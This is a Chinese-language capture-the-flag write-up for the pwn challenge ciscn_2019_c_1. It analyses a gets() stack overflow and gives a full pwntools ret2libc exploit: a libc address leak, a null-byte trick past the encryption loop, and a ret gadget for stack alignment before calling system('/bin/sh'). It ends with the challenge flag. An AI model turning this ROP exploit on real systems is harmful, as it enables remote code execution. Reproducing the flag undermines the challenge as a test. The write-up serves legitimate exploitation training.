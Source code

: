 # ciscn_2019_c_1

[题目地址](https://buuoj.cn/challenges#ciscn_2019_c_1)

每次普通的ret2libc总是要搞点变种。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

几乎啥也没开，入门题基操。进入main函数。

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  int __edflag;
  char *__block;
  int local_c;
  
  init(param_1);
  puts("EEEEEEE                            hh      iii                ");
  puts("EE      mm mm mmmm    aa aa   cccc hh          nn nnn    eee  ");
  puts("EEEEE   mmm  mm  mm  aa aaa cc     hhhhhh  iii nnn  nn ee   e ");
  puts("EE      mmm  mm  mm aa  aaa cc     hh   hh iii nn   nn eeeee  ");
  puts("EEEEEEE mmm  mm  mm  aaa aa  ccccc hh   hh iii nn   nn  eeeee ");
  puts("====================================================================");
  puts("Welcome to this Encryption machine\n");
  begin();
  while( true ) {
    while( true ) {
      fflush((FILE *)0x0);
      local_c = 0;
      __edflag = (int)&local_c;
      __block = "%d";
      __isoc99_scanf();
      getchar();
      if (local_c != 2) break;
      puts("I think you can do it by yourself");
      begin();
    }
    if (local_c == 3) break;
    if (local_c != 1) {
      puts("Something Wrong!");
      return 0;
    }
    encrypt(__block,__edflag);
    begin();
  }
  puts("Bye!");
  return 0;
}
```

不知道为啥ghidra里的scanf崩了，参数都没有放到函数里面。没啥大问题，看encrypt函数。

```c
void encrypt(char *__block,int __edflag)

{
  size_t sVar1;
  long i;
  ulong uVar2;
  undefined8 *puVar3;
  undefined8 local_58 [9];
  
  puVar3 = local_58;
  for (i = 6; i != 0; i = i + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  *(undefined2 *)puVar3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets((char *)local_58);
  while( true ) {
    uVar2 = (ulong)x;
    sVar1 = strlen((char *)local_58);
    if (sVar1 <= uVar2) break;
    if ((*(char *)((long)local_58 + (ulong)x) < 'a') || ('z' < *(char *)((long)local_58 + (ulong)x))
       ) {
      if ((*(char *)((long)local_58 + (ulong)x) < 'A') ||
         ('Z' < *(char *)((long)local_58 + (ulong)x))) {
        if (('/' < *(char *)((long)local_58 + (ulong)x)) &&
           (*(char *)((long)local_58 + (ulong)x) < ':')) {
          *(byte *)((long)local_58 + (ulong)x) = *(byte *)((long)local_58 + (ulong)x) ^ 0xf;
        }
      }
      else {
        *(byte *)((long)local_58 + (ulong)x) = *(byte *)((long)local_58 + (ulong)x) ^ 0xe;
      }
    }
    else {
      *(byte *)((long)local_58 + (ulong)x) = *(byte *)((long)local_58 + (ulong)x) ^ 0xd;
    }
    x = x + 1;
  }
  puts("Ciphertext");
  puts((char *)local_58);
  return;
}
```

发现gets栈溢出。看起来可以直接搞了，然而下面的加密逻辑会把我们的payload搞乱。为了不让程序破坏gadgets，我们可以在payload前面加个\x00。因为[strlen](http://c.biancheng.net/c/strlen.html)函数从字符串的开头位置依次向后计数，直到遇见\0，那我们开始就是\0，返回长度不就是0了吗，满足while循环的break条件。直接放exp，全是基操。

```python
from pwn import *
p=remote("node4.buuoj.cn",26674)
pop_rdi=0x0000000000400c83
puts_got=0x00602020
puts_plt=0x004006e0
encrypt_addr=0x004009a0
system_offset=	-0x31580
bin_sh_offset=	0x1334da
payload=b'\x00'+b'a'*0x57+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(encrypt_addr)
p.sendlineafter("Input your choice!",'1')
p.sendlineafter("Input your Plaintext to be encrypted",payload)
p.recvuntil(b'\n\n')
puts_addr=u64(p.recv(6).ljust(8,b'\x00'))
system=puts_addr+system_offset
bin_sh=puts_addr+bin_sh_offset
payload=b'\00'+b'a'*0x57+p64(0x00000000004006b9)+p64(pop_rdi)+p64(bin_sh)+p64(system)+p64(encrypt_addr)
p.sendlineafter("Input your Plaintext to be encrypted",payload)
p.interactive()
```

题目描述有一句“Ubuntu 18”，难道就是写来玩的？当然不是。ubuntu18下调用system函数需要[栈对齐](https://www.cnblogs.com/ZIKH26/articles/15996874.html)。为什么前面泄露地址不用？因为前面没有调用system，这个规则似乎是system函数独有的。而且这个对齐不是8字节，是16字节。64位程序的地址是8字节的，而十六进制又是满16就会进位，因此我们看到的栈地址末尾要么是0要么是8。只有当地址的末尾是0的时候，才算是与16字节对齐了，如果末尾是8的话，那就是没有对齐。如果想要在ubuntu18以上的64位程序中执行system函数，必须要让执行system地址末尾是0。如果没有对齐，我们有两种办法：

1. 将system函数地址+1，此处的+1，即是把地址+1。+1是为了跳过一条栈操作指令（我们的目的就是跳过一条栈操作指令，使rsp十六字节对齐，跳过一条指令，自然就是把8变成0了）。但又一个问题就是，本来+1是为了跳过一条栈操作指令，但是你也不知道下一条指令是不是栈操作指令，如果不是栈操作指令的话（你加一之后有可能正好是mov这种指令，也有可能人家指令是好几个字节，你加一之后也没有到下一个指令呢），+1也是徒劳的，要么就继续+1，一直加到遇见一条栈操作指令为止
2. 直接在调用system函数地址之前去调用一个ret指令。因为本来现在是没有对齐的，那我现在直接执行一条对栈操作指令（ret指令等同于pop rip，该指令使得rsp+8，从而完成rsp16字节对齐），这样system地址所在的栈地址就是0结尾，从而完成了栈对齐。

明显第二种更简单。这里正好也有ret的gadget 0x00000000004006b9。成功getshell。

### Flag
- flag{60eb0105-0b7f-4a0e-b936-2d0dfbfccfb2}